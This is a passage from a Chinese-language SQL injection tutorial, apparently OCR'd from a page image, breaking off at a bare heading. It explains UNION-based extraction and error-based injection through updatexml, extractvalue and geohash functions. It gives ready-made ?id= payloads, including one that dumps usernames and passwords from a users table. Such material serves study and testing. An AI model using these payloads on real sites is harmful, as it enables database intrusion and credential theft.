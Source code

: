`?id=-1' union select 1,2,group_concat(0x5c,username,0x5c,password) from users--+`

其中0x5c是`\`的十六进制表示，以隔开不同数据防止混淆

### 三.报错注入

通过在SQL查询中注入特定的恶意代码，使数据库返回错误信息。这些错误信息通常包含有关数据库结构和内容的详细信息，攻击者可以利用这些信息进一步攻击系统

如果页面没有回显位，无法使用UNION进行输出结果，但是可以报错，那么报错本身就是信息的一个输出，我们可以从报错入手，让系统主动通过报错给我们暴露信息

常见报错注入函数
1. updatexml

语法

UPDATEXML(target_xml, xpath_expression, new_xml)

target_xml：要更新的 XML 文档

xpath_expression：用于指定要更新的节点的 XPath 表达式

new_xml：新的 XML 片段，用于替换指定节点的内容

updatexml(1,1,1) 一共可以接收三个参数，报错位置在第二个参数

使用方法：

`?id=1' and updatexml(1,concat(0x7e,(select user()),0x7e),1) --+`

0x7e为`~`

它的用法跟extractvalue差不多

2. extractvalue

函数本身用法

`EXTRACTVALUE(xml_target, xpath_expression)`

xml_target：要从中提取值的 XML 文档

xpath_expression：用于指定要提取的节点的 XPath 表达式

在报错注入中，通过构造一个无效的 XPath 表达式，使 EXTRACTVALUE 函数触发数据库错误。错误信息中通常会包含有关数据库结构和内容的信息

如果把查询参数路径写错，查不到内容，但不会报错

如果把查询参数格式符号写错，会提示报错

`extractvalue(1,1) 一共可以接收两个参数，报错位置在第二个参数`

使用方法：

`?id=1' and extractvalue(1,concat((select user()))) --+`

3. ST_LatFromGeoHash()

`?id=1' and ST_LatFromGeoHash(concat(0x7e,(select user()),0x7e))--+`

4. ST_LongFromGeoHash
`?id=1' and ST_LongFromGeoHash(concat(0x7e,(select user()),0x7e))--+`

5. GTID 
